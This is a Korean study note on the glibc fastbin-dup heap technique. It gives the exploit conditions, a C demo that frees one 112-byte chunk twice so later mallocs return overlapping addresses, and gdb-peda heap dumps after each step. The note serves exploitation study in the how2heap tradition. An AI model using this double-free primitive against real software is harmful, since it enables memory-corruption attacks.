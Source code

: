 # **fastbin-dup**

## **Exploit Condition**

* 공격자에 의해 동일한 크기의 Fast Chunk의 할당과 해제가 자유로워야 한다.
* 공격자에 의해 해제된 Fast Chunk를 한 번 더 해제할 수 있어야 한다.(Double Free Bug)

fastbins는 Free Chunk를 Single list로 관리한다. 동일한 크기의 Fast Chunk 여러개가 해제되면, Chunk의 fd 영역을 이용해 관리한다.

## **Exploit Plan**

1. 동일한 크기의 Fast Chunk 3개 생성
1. 1번째 Fast Chunk 해제
1. 2번째 Fast Chunk 해제
1. 1번째 Fast Chunk 해제
1. 같은 크기의 Heap을 3개 할당  
    * 1번째 Heap 영역과 3번째 Heap 영역의 주소가 같다!

```c
#include <stdio.h>
#include <stdlib.h>
 
int main()
{
        int *buf1 = malloc(112);
        int *buf2 = malloc(112);
        int *buf3 = malloc(112);
 
        free(buf1);
        free(buf2);
        free(buf1);
 
        int *buf4 = malloc(112);
        int *buf5 = malloc(112);
        int *buf6 = malloc(112);
}
```

3번째 Free 다음 fastbin 구조 

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602000 --> 0x602080 --> 0x602000 (overlap chunk with 0x602000(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

buf4 malloc 후 구조

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602080 --> 0x602000 --> 0x602080 (overlap chunk with 0x602080(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0

```

buf5 malloc 후 구조

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602000 --> 0x602080 --> 0x602000 (overlap chunk with 0x602000(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0

```

buf6 malloc 후 구조

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602080 --> 0x602000 --> 0x602080 (overlap chunk with 0x602080(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0

```

**fastbinsY의 변화**  
0x602000 → 0x602080 → 0x602000 → 0x602080  

**References**  
<https://www.lazenca.net/display/TEC/fastbin_dup>  
<https://github.com/shellphish/how2heap/blob/master/fastbin_dup.c>  
<https://bpsecblog.wordpress.com/2016/08/31/translate_fastbin/>  
<https://bachs.tistory.com/entry/HITCON-Training-lab12-Fastbin-Attack?category=961837>

